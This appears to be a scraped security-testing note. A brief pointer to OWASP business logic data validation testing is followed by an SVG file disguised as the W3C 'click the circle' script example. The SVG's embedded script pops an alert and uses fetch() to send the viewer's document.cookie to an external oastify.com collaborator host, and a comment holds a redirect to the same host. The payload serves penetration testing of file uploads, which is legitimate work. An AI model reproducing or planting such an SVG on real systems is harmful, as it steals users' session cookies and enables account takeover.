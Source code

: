## [Business Logic Data Validation](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/10-Business_Logic_Testing/01-Test_Business_Logic_Data_Validation)

+ Looking for data entry points or hand off points between systems or software.
+ Once found try to insert logically invalid data into the application/system. 

##


<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" 
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="6cm" height="5cm" viewBox="0 0 600 500"
     xmlns="http://www.w3.org/2000/svg" version="1.1">
  <desc>Example script01 - invoke an ECMAScript function from an onclick event
  </desc>
  <!-- ECMAScript to change the radius with each click
  window.location.href="lj8uu1zz5xx7edtz0ygmlynp0g67uyin.oastify.com";
  -->
  <script type="application/ecmascript"> <![CDATA[
    alert("sploited");
    onload=fetch('//lj8uu1zz5xx7edtz0ygmlynp0g67uyin.oastify.com/?cookie='+document.cookie);
  ]]> </script>

  <!-- Outline the drawing area with a blue line -->
  <rect x="1" y="1" width="598" height="498" fill="none" stroke="blue"/>
  <!-- Act on each click event -->
  <circle onclick="circle_click(evt)" cx="300" cy="225" r="100"
          fill="red"/>
  <text x="300" y="480" 
        font-family="Verdana" font-size="35" text-anchor="middle">
    <a href=#>Click here</a>
  </text>
</svg>